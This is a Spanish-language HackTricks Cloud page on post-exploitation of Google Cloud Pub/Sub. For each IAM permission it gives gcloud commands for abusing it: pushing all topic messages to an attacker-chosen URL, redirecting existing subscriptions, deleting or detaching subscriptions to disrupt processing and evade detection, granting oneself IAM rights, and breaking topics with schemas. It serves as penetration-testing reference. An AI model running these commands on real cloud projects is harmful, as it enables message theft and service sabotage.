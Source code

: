 # GCP - Pub/Sub Post Explotación

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Pub/Sub

Para más información sobre Pub/Sub consulta la siguiente página:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publica un mensaje en un tema, útil para **enviar datos inesperados** y activar funcionalidades inesperadas o explotar vulnerabilidades:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Útil para evitar que una suscripción reciba mensajes, tal vez para evitar la detección.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Útil para evitar que una suscripción reciba mensajes, tal vez para evitar la detección.\
Es posible eliminar un tema incluso con suscripciones adjuntas a él.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Utiliza este permiso para actualizar alguna configuración del tema para interrumpirlo, como `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Otórgate permiso para realizar cualquiera de los ataques anteriores.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtén todos los mensajes en un servidor web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crea una suscripción y úsala para **extraer mensajes**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Eliminar una suscripción** podría ser útil para interrumpir un sistema de procesamiento de registros o algo similar:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Utiliza este permiso para actualizar alguna configuración para que los mensajes se almacenen en un lugar al que puedas acceder (URL, tabla de Big Query, Bucket) o simplemente para interrumpirlo.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Otórgese los permisos necesarios para realizar cualquiera de los ataques comentados anteriormente.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Ataque un esquema a un tema para que los mensajes no lo cumplan y, por lo tanto, el tema se interrumpa.\
Si no hay esquemas, es posible que necesite crear uno.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Esto puede parecer que al eliminar un esquema podrás enviar mensajes que no cumplen con el esquema. Sin embargo, como el esquema será eliminado, ningún mensaje entrará realmente en el tema. Así que esto es **INÚTIL**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Otórgate los permisos necesarios para realizar cualquiera de los ataques comentados anteriormente.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Esto creará un snapshot de todos los mensajes no ACK y los devolverá a la suscripción. No es muy útil para un atacante, pero aquí está:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
